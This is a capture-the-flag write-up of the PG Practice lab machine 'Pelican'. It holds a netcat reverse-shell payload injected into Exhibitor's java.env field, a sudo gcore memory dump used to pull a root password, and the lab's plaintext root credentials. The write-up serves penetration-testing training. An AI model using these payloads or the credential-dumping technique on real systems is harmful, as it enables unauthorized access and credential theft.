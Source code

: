 ```yaml
---
layout: post
title: Pelican
date: 2024-06-01 02:00:00 +0100
published: true
categories: [PG Practice]
tags: [PG Practice]
---
```


## Summary

On port 8081 is running `Exhibitor for ZooKeeper v1.0` which is vulnerable to arbitrary code execution via `java.env script` field under Config tab. Malicious command needs to be placed inside `$()`. I was able to get initial foothold on the system by using reverse shell one liner as payload. Enumerating system as user `charles` I found out that `charles` can run `/usr/bin/gcore` with `sudo`. This binary can be used to generate core dump of process by providing process ID. Searching for processes I ran `pspy64s` and found interesting process `/usr/bin/password-store`, which is running as root. I generated core dump for `/usr/bin/password-store` process using `/usr/bin/gcore`. Inspecting output I found root credentials and I was able to log in as root. 

___
## Reconnaissance

### Nmap

```
nmap -sV -sC -oN ./nmap.txt 192.168.246.98
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2222/tcp open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp open  http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.246.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeration

### Service Enumeration

|                |                                         |
| -------------- | --------------------------------------- |
| **IP Address** | **Ports Open**                          |
| 192.168.246.98 | **TCP**: 22, 445, 631, 2222, 8080, 8081 |
#### Port 445

```
smbclient -N -L //192.168.246.98
```

![445](/assets/images/pelican/445.png)

#### Port 631

```
CUPS v2.2.10
```

#### Port 8080

```
Jetty 1.0
```

#### Port 8081

```
nginx 1.14.2
```

![[8081.png]]

```
Exhibitor for ZooKeeper v1.0
```

___
## Initial Foothold

### Exhibitor Web UI - RCE

Source: https://www.exploit-db.com/exploits/48654

`java.env script` field can be modified and the new configuration pushed to `ZooKeeper`. We can execute arbitrary code by placing it inside `$()`. For payload I used simple reverse shell one liner. 

Payload:
```
$(/bin/nc -e /bin/sh 192.168.45.162 4444 &)
```

![[PG Practice/Intermediate/Pelican/Screenshots/exploit.png]]

After committing changes we receive reverse shell on port 4444.

![[PG Practice/Intermediate/Pelican/Screenshots/reverseSHell.png]]

### Local.txt

![[PG Practice/Intermediate/Pelican/Screenshots/localFlag.png]]

_____
## Privilege Escalation

### System Enumeration

```
sudo -l
```

![[PG Practice/Intermediate/Pelican/Screenshots/sudoL.png]]

Output showed that we can run `/usr/bin/gcore` with `sudo`. Searching this binary on `gtfobins` (https://gtfobins.github.io/gtfobins/gcore/) revealed that it is possible to uses this binary to generate core dump of process by providing process ID. 
#### Pspy64s

Running `pspy64s` revealed interesting process `/usr/bin/password-store`, which is running with root privileges. 

![[PG Practice/Intermediate/Pelican/Screenshots/pspy64s.png]]

### Core dump of /usr/bin/password-store process

```
sudo /usr/bin/gcore -a -o output.txt 494
```

![[escal.png]]

Inspecting output we can find root credentials.

```
cat output.txt
```

![[PG Practice/Intermediate/Pelican/Screenshots/password.png]]

### Root Access

```
root : ClogKingpinInning731
```

![[PG Practice/Intermediate/Pelican/Screenshots/rootLogin.png]]

___
## Post Exploitation

![[PG Practice/Intermediate/Pelican/Screenshots/proofFlag.png]]
